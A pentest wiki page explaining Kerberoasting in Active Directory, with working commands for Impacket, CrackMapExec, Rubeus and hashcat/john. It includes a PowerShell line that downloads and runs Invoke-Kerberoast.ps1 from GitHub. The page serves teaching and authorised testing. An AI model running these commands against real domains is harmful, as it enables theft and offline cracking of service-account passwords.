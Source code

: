 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC \(Key Distribution Center\) for a Service Ticket, a.k.a. TGS \(Ticket Granting Service\), the requesting user needs to send a valid TGT \(Ticket Granting Ticket\) and the SPN \(Service Principal Name\) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the TGS to the requesting user.

The TGS is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a TGS for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a TGS for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold \(valid domain credentials\).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) \(Python\) can perform all the necessary steps to request a TGS for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try cracking the hash.

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another \([`GenericAll`](../abusing-aces/#genericall), [`GenericWrite`](../abusing-aces/#genericwrite)\), it can be abused to make that other account vulnerable to Kerberoast \(see [exploitation](../abusing-aces/targeted-kerberoasting.md)\).

## Resources

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

